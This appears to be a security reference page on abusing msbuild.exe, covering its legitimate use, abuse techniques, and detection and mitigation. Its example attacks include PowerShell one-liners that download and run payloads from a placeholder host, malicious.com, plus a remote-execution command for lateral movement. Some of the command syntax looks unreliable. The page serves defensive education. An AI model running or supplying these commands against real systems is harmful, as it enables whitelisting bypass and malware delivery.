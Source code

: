 # msbuild.exe
## What is it?
*```msbuild.exe``` is a legitimate Microsoft tool used for building applications and managing projects. It is part of the .NET Framework and is responsible for compiling code, packaging applications, and managing project files.*

## Legitimate Usage
- **Building Applications** → ```msbuild.exe``` compiles source code and generates executable files or libraries from project files.
- **Managing Project Files** → It allows developers to manage and automate the build process using MSBuild project files (e.g., .csproj or .vbproj).
- **Automated Builds** → Used in continuous integration (CI) pipelines to automate the process of building, testing, and deploying applications.

## How to abuse it
- **Executing Malicious Code** → Attackers can use ```msbuild.exe``` to run arbitrary code embedded in project files, enabling them to execute payloads without triggering security alerts.
- **Persistence via Custom Projects** → Malicious actors can create custom project files that execute malicious code every time ```msbuild.exe``` is invoked.
- **Bypassing Security Controls** → Since ```msbuild.exe``` is a trusted utility, security tools may overlook its misuse, enabling attackers to bypass defenses like application whitelisting.
- **Fileless Malware** → Attackers can execute payloads directly in memory using ```msbuild.exe```, avoiding the creation of files on disk and evading traditional detection methods.

## Example attacks
### 1. Malicious Code Execution via Project Files
*Attackers can embed malicious PowerShell commands or other executable code into a project file and execute them using ```msbuild.exe```.*
**Execute Malicious Code Embedded in a Project File**

```
msbuild.exe C:\path\to\malicious_project.proj
```

**Effect:**
- The ```malicious_project.proj``` file contains embedded code that gets executed, which could include PowerShell scripts, reverse shells, or other malicious payloads.

### 2. Bypassing Application Whitelisting
*Since ```msbuild.exe``` is a trusted tool, it can be used to bypass application whitelisting policies and execute malicious code within a trusted process.*
**Execute Malicious PowerShell Script via MSBuild**

```
msbuild.exe /target:build /p:RunCustomScript="powershell -nop -exec bypass -command "Invoke-WebRequest -Uri http://malicious.com/malware.ps1 -OutFile C:\Windows\Temp\malware.ps1; . C:\Windows\Temp\malware.ps1""
```

**Effect:**
- This command uses ```msbuild.exe``` to run a malicious PowerShell script, bypassing application control measures like AppLocker.

### 3. Persistence via Custom MSBuild Projects
*Attackers can create malicious MSBuild project files that maintain persistence, ensuring the execution of payloads each time ```msbuild.exe``` is run.*
**Create Persistent Payload with MSBuild**

```
msbuild.exe /t:Build /p:PreBuildEvent="powershell -nop -exec bypass -command "Invoke-WebRequest -Uri http://malicious.com/payload.exe -OutFile C:\Windows\Temp\payload.exe; Start-Process C:\Windows\Temp\payload.exe""
```

**Effect:**
- The malicious payload will be executed each time the build process is triggered, ensuring persistence on the system.

### 4. Fileless Malware Execution
*```msbuild.exe``` can be used to execute fileless malware, which runs directly from memory and never writes to disk, reducing the chances of detection by traditional security tools.*
**Run Fileless Malware with MSBuild**

```
msbuild.exe /p:RunCustomScript="powershell -nop -exec bypass -command "Invoke-Expression (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')\""
```

**Effect:**
- The PowerShell script is downloaded and executed directly from memory, avoiding file creation on disk and evading file-based security tools.

### 5. Lateral Movement via MSBuild
*Attackers can use ```msbuild.exe``` to remotely execute malicious code on other machines in the network, propagating malware or stealing data.*
**Run Malicious MSBuild Project Remotely**

```
Invoke-Command -ComputerName TargetMachine -ScriptBlock { msbuild.exe C:\path\to\malicious_project.proj }
```

**Effect:**
- This command remotely executes ```msbuild.exe``` on the target machine, executing the embedded malicious code within the project file.

# Detection & Mitigation
## Detection Methods
**Monitor for Unusual MSBuild Execution**
- **Event ID 4688 (Process Creation)** → Detect the execution of ```msbuild.exe``` with unusual arguments or from unexpected locations.
- **Fileless Malware Detection** → Use endpoint protection tools to detect and flag memory-based execution patterns.

**Monitor Suspicious Project Files**
- **Audit MSBuild Project Files** → Look for project files containing suspicious commands or scripts that invoke external URLs or execute system-level commands.

**Detect PowerShell Execution**
- **Event ID 4104 (PowerShell Script Block Logging)** → Detect PowerShell scripts executed via ```msbuild.exe``` for command-and-control or payload delivery.

## Mitigation Strategies
- **Restrict Use of MSBuild** → Use application whitelisting (e.g., AppLocker) to restrict the execution of ```msbuild.exe``` to authorized users and applications only.
- **Disable Unnecessary MSBuild Functionality** → Prevent MSBuild from running untrusted project files by restricting access to the MSBuild tool or controlling which scripts and commands it can run.
- **Monitor for Fileless Malware** → Implement behavioral-based detection methods to identify and block fileless malware executions.
- **Use Endpoint Protection Tools** → Ensure antivirus and endpoint detection and response (EDR) tools are configured to flag suspicious MSBuild activity and fileless payloads.
